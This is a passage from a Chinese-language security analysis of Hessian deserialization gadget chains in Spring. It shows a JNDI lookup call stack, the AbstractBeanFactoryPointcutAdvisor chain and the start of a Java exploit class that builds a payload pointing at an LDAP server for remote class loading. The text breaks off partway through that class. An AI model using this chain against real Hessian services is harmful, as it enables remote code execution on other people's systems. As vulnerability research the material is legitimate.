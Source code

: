     后面部分也是一致的，只需要在 exp 中加入
    
    ```plain
    HashSet<String> set = new HashSet<>();
    set.add(url);
    setFiled(simpleJndiBeanFactory, "shareableResources", set);
    ```
    
    调用栈：
    
    ```plain
    doInContext:155, JndiTemplate$1 (org.springframework.jndi)
    execute:87, JndiTemplate (org.springframework.jndi)
    lookup:152, JndiTemplate (org.springframework.jndi)
    lookup:179, JndiTemplate (org.springframework.jndi)
    lookup:95, JndiLocatorSupport (org.springframework.jndi)
    doGetSingleton:211, SimpleJndiBeanFactory (org.springframework.jndi.support)
    doGetType:219, SimpleJndiBeanFactory (org.springframework.jndi.support)
    getType:184, SimpleJndiBeanFactory (org.springframework.jndi.support)
    ...
    ```
    
-   根据分析很容易理解 exp 构造，在 exp 构造中，很多类没有无参数构造方法，这里参考 marshalsec 中的设计，非常巧妙
    

### Spring AbstractBeanFactoryPointcutAdvisor 链

#### 利用链

```plain
SimpleJndiBeanFactory.getBean() (org.springframework.jndi.support)
AbstractBeanFactoryPointcutAdvisor.getAdvice()  (org.springframework.aop.support)  // 主要
AbstractPointcutAdvisor.equals()   (org.springframework.aop.support)
HotSwappableTargetSource.equals()    (org.springframework.aop.target) 
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class AbstractBeanFactoryPointcutAdvisorHessian {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://127.0.0.1:1389/ppkhjx";

        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
        // String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
```